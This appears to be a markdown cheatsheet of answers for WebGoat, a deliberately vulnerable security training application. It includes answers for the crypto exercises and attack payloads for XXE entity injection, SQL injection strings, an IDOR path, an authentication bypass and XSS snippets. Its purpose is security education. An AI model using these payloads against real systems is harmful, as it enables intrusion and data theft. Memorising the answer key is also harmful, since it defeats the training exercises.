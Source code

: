 # Cheatsheet

https://github.com/WebGoat/WebGoat/wiki/Main-Exploits

## CIA TRIAD
[Descripción de CIAD](https://www.forcepoint.com/es/cyber-edu/cia-triad)

1- Solution 3: By stealing a database where names and emails are stored and uploading it to a website.
2- Solution 1: By changing the names and emails of one or more users stored in a database.
3- Solution 4: By launching a denial of service attack on the servers.
4- Solution 2: The systems security is compromised even if only one goal is harmed.

## Crypto basics

### 2

[Encoding](https://www.w3.org/International/questions/qa-what-is-encoding)
[Encode64](https://www.base64decode.org/)

### 3

[XOR IBM](https://strelitzia.net/wasXORdecoder/wasXORdecoder.html)

`databasepassword`

### 4

[MD5](https://www.md5online.org/md5-decrypt.html)
[SHA256](https://hashes.com/es/decrypt/hash)

### 5
Symmetric - Misma llave
-  Is an older method of encryption, it is faster and more efficient than asymmetric encryption, which takes a toll on networks due to performance issues with data size and heavy CPU use.
-  Is typically used for bulk encryption / encrypting large amounts of data, e.g. for database encryption. In the case of a database, the secret key might only be available to the database itself to encrypt or decrypt.


 Asymmetric - llave publica llave privada

## Access control flaws -  Guessing & Predicting Patterns

```
WebGoat/IDOR/profile/2342384
```

## XXE - Let's try

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
```
## Modern REST framework

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
<comment><text>&xxe;</text></comment>
```

## Try It! String SQL Injection

```
Smith' and '1'='1
```

## Try It! Numeric SQL Injection

```
101 OR TRUE
```

## SQL Injection (mitigation) - ZAP

```
192.168.6.4
```

## Authentication Bypasses - ZAP

```
secQuestion00=asd&secQuestion01=asd
```

## What is XSS

```
yes / no 
```

```
javascript:alert(document.cookie);
```

## Try It! Reflected XSS

Enter your credit card number:
```
<script>alert('my javascript here')</script>
```
## Identify Potential for DOM-Based XSS

```
start.mvc#test/
```

## Try It! DOM-Based XSS

Consola:
```
webgoat.customjs.phoneHome()
```

